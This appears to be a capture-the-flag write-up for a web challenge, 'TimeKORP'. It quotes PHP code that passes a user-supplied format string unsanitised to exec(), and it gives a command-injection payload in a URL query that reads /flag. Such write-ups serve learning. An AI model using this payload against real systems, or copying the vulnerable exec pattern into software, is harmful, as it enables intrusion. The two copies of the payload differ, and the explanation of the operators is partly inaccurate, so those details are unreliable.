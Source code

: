 TimeKORP

Description:
Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? 
Join the challenge and prove your prowess in the world of cybersecurity. 
Remember, time is money, but in this case, the rewards may be far greater than you imagine.

Key point: Command line injection

Solution:
in the 
/models/TimeModel.php file

<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}   

you can see that it execute the command "$this->command" using "$time = exec($this->command);"
directly without sanatizing it.
We, then, can see the vulnabiltiy here where we can use command injection.

In the url of the problem which something like this:
http://94.237.54.201:30280/?format=%H:%M:%S

we change it to:
http://94.237.54.201:30280/?format="';cat /flag' ||'

and then boom the flag got display in the web page.

Explain: "';cat /flag ||'
'; :is a command seperator in shell scripting it si use so that the 'date' command has ended here.

cat /flag :self-explanatory. It is use for displaying the flag.

|| :is a logical OR operator in shell scripting. This part is used to ensure that, 
even if something goes wrong (e.g., /flag doesn’t exist, or there's a permission issue), 
the rest of the command doesn’t break, and execution continues smoothly. 

and that is it for me.
